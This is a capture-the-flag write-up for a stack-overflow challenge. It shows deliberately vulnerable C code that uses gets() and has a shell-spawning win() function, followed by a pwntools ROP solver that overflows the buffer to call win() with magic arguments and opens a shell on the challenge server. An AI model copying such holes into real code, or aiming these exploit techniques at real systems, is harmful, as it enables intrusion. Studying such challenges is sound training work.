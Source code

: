 ## Args
![challenge](../images/args.png)

### Source Code
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

//gcc main.c -o main -fno-stack-protector -no-pie
int setup(){
    setvbuf(stderr, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    return setvbuf(stdin, NULL, _IONBF, 0);
}
int win(int a, int b){
    if (a == 0xdeadbeef && b == 0xcafebabe){
        system("/bin/sh");
    } else {
        puts("You are in but keep trying");
    }
}
int main(){
    setup();
    char buf[50];
    printf("double room for ?:");
    gets(buf);
    return 0;
}
```
### Overview
This challenge is a bit similar to the Baby_BOF but here we have arguments to pass.
In order to do that we can use ```ROP``` from pwntools library, that makes our lives more better.

### Solver
```py
from pwn import * 

elf = context.binary = ELF('main')
con = remote('20.216.40.184',10003)

offset = b'A' * 72

rop = ROP(elf)
rop.win(0xdeadbeef,0xcafebabe)

log.info(rop.dump())
payload = offset + rop.chain() 

con.send(payload)
con.interactive()
con.close()
```
